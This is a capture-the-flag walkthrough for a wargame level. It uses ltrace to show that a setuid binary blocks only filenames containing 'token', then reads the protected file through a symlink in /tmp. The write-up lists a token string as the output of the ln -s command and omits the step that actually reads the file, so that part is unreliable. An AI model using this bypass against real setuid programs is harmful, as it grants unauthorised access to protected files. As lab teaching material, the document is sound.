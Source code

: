 ## Level 08: Bypassing File Access Restrictions with Symlinks

### Goal
Bypass the filename check in the `level08` executable to gain access to the `token` file, which is restricted by permissions, using symbolic links.

### Steps

1. **File Inspection**  
   After logging in, two files are present: an executable named `level08` and a file named `token`.  
- Executing the binary using `./level08` results in:  
    ```bash
    ./level08 [file to read]
    ```
- Providing `token` as an argument returns:  
    ```bash
    ./level08 token
    You may not access 'token'
    ```
- Inspecting the contents of `token` using `cat token` results in a permission error:  
    ```bash
    cat token
    cat: token: Permission denied
    ```
- Checking file permissions using `ls -la level08 token` shows:  
	```bash
	-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
	-rw-------  1 flag08 flag08    26 Mar  5  2016 token
	```
	This reveals that `token` has strict permissions and is only readable/writable by the user `flag08`. However, the executable `level08` has the setuid (`s`) bit enabled, meaning it executes with the privileges of the file owner (`flag08`).

2. **Analyzing the Executable with ltrace**  
   To understand why `./level08 token` fails, `ltrace` is used to trace library calls:  
   ```bash
   ltrace -f ./level08 token
   ```
   Output:
    ```bash
    [pid 3033] __libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
    [pid 3033] strstr("token", "token")                                          = "token"
    [pid 3033] printf("You may not access '%s'\n", "token"You may not access 'token'             )                      = 27
    [pid 3033] exit(1 <unfinished ...>
    [pid 3033] +++ exited (status 1) +++
    ```
	This shows that the program uses `strstr` to check if the filename contains the word `token`. If the word `token` is not present in the filename, the program attempts to open the file:
	```bash
    ltrace -f ./level08 test
    ```
    Output:
    ```bash
    [pid 3061] __libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
    [pid 3061] strstr("test", "token")                                           = NULL
    [pid 3061] open("test", 0, 014435162522)                                     = -1
    [pid 3061] err(1, 0x80487b2, 0xbffff907, 0xb7fe765d, 0xb7e3ebaflevel08: Unable to open test: No such file or directory  <unfinished ...>
    [pid 3061] +++ exited (status 1) +++
    ```
	The program doesn't find the word `token` and attempts to open a non-existent file `test`.

3. **Exploiting the Vulnerability**  
	A `symbolic link` (symlink) can bypass the filename check.  
	Unlike a `hardlink`, which directly references the file's data and cannot span different filesystems, a symlink can link across different filesystem, making it more flexible for linking across varied file locations.
- To exploit this:
	```bash
    ln -s /home/user/level08/token /tmp/test
    ```
	Ouput:
    ```bash
    quif5eloekouj29ke0vouxean 
    ```
	This command creates a symlink `/tmp/test` pointing to `/home/user/level08/token`.  
	Since the symlink doesn't contain the word token, it avoids the `strstr` check, allowing indirect access to the `token` file.